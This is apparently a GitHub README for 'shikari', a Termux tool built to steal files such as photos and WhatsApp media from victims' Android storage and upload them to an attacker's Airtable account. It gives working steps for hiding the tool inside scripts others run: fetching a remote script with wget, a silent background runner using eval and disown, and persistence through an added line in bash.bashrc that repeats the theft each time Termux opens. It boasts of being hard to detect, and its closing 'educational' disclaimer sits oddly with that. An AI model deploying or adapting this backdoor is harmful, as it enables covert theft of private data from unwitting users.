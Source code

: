 
<h1 align="center">
  <br>
  <a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/shikari.gif" alt=""></a>


## Features

✓ First time on internet 😎 , Give credit if you are going to copy my idea or code ;)</br>
✓ You can get any files of victim 🌚</br>
- /storage/DCIM
- /storage/Pictures
- /storage/WhatsApp 
- /storage/Anything..;)

✓ All things happen in background.</br>
✓ Not Easily Detectable</br>
✓ You will get notifications through Email ;)</br>

## Tutorial
### Step 1
- [Create New Account](https://airtable.com/invite/r/GNqgr5Ps)
### Step 2
- Create New Base
- Create Table
- Create 2 Field
    + Field 1 : Name
    + Field 2 : link
- Check Screenshot for Understanding.

<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-183933.jpg"></a>
### Step 3
Note Down following ids.
+ [API ID](https://airtable.com/account)
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-185807.jpg"></a>
+ [Base ID](https://airtable.com/api)
<a href="#"><img src="https://d3drh3gsi3sqc6.cloudfront.net/images/airtable-find-base-id.png"></a>
+ Table Name
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-192936.jpg"></a>
### Step 4
Paste below code in your github and save it "shikari.txt"</br>
modify your details under " " or ' '</br>
```
export api="keyamJ*********"
export base='appJ8Pj*****'
export table="hack"
export folder="ADM"
[[ "${#BASH_SOURCE[@]}" -gt "1" ]] && { return 0; }
```

Enter your folder name you want to Hack. (ex. DCIM, Pictures, Download, Music) </br></br>
Now you can change your target folder anytime by changing in your github shikari.txt.</br></br>
When you change it with "Documents" then you will get Documents ! if you change folder name to "Pictures" then you will get Pictures of victim 🌚</br></br>

### Step 5

+ Now add below command in your script.
Example.,

+ Change wget link with your shikari.txt.link
```
$ cd $HOME
$ wget https://raw.githu../master/shikari.sh (your shikari.txt raw link)
$ pkg install python -y
$ pip install shikari
$ shikari
```

After Complete Process Don't forget to remove "shikari.txt" file
```
cd $HOME
rm -f shikari.txt
```

### Background Process
Add this code in your new "hack.sh" script for background process.
```
_evalBg() {
eval "$@" &>/dev/null & disown;
}
cmd="pip install shikari && shikari";
_evalBg "${cmd}";
```
Add "bash hack.sh" in your shikari.txt script instead of pip install shikari...

```
$ cd $HOME
$ wget https://raw.githu../master/shikari.sh (your shikari.txt raw link)
$ pkg install python -y
$ bash hack.sh
```

You can upload hack.sh on your GitHub and add on victim device by wget command then you can put "bash hack.sh" for background process.
### logic
When someone open termux everytime you will get /storage/folder of victim.
+ You need to follow this step..(add below code in your Bash script)
```
mv hack.sh $PREFIX/etc/bin 
echo "bash hack.sh" >> $PREFIX/etc/bash.bashrc
```

### Limitation
+ You can't get any folder if your victim have no storage permission on Termux.
+ add this command in your script for Storage permission.
```
termux-setup-storage
```

### Email Setup
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203554.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203648.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203715.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203743.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203810.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-204013.jpg"></a>

+ Setup according your need , when someone use your script then automatically backdoor
Created on victim device, everytime your victim open termux you will get his data through Email !!
+ After uploading folders, airtable will send you download link ;)

### Demo Screenshots
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205246_105.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205251_263__01.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205256_944__01.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205300_548.jpg"></a>


### Error/Problems
Send Mail to this id if you are facing any problems.</br>
Mail : parixit1337@gmail.com
### Disclaimer
The tutorial and demo provided for informational and educational purpose only, and for those who’re willing and curious to know and learn about Ethical Hacking, Security and Penetration Testing.</br></br> Any time the word “Hacking” that is used on this Application shall be regarded as Ethical Hacking.</br></br>
You shall not misuse the information to gain unauthorised access. However you may try out these hacks on your own computer at your own risk. Performing hack attempts (without permission) on computers that you do not own is illegal.
